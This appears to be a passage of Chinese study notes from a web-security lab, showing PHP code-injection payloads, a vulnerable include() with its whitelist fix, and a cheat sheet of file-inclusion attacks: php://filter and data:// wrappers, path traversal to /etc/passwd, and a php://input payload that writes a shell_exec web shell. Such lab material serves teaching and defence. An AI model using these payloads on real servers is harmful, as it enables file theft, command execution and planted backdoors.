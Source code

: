 解题

```php
a=${${system('cat ./key4.php')}}

a=");system('id');//
```

# 文件包含

## 本地文件包含

关键代码

```php
$html='';
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "include/$filename";//变量传进来直接包含,没做任何的安全限制
//     //安全的写法,使用白名单，严格指定包含的文件名
//     if($filename=='file1.php' || $filename=='file2.php' || $filename=='file3.php' || $filename=='file4.php' || $filename=='file5.php'){
//         include "include/$filename";

//     }
}
```

文件包含常见利用方式

```php
file直接读文件
?file=file:///etc/passwd
?file=file://D:/soft/phpstudy/www/1.txt

php://filter
?file=php://filter/read=convert.base64-encode/resource=./index.php  //base64读文件
php://filter/read=convert.base64-encode/resource=../../../../../../../etc/passwd

php://input
[post data] <?php phpinfo();?> <?php system('id');?>
<?php fputs(fopen('shell.php','w'),'<?php $var=shell_exec($_GET["cmd"]); echo $var ?>');?> \\写文件参考

data://text
?file=data://text/plain,<?php phpinfo();?>
file=data:text/plain,<?php echo shell_exec("dir") ?>
?file=data://text/plain,<?php system('find / -name key.php');?>
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
```

目录浏览

`filename=../../../../../../../../../etc/passwd`
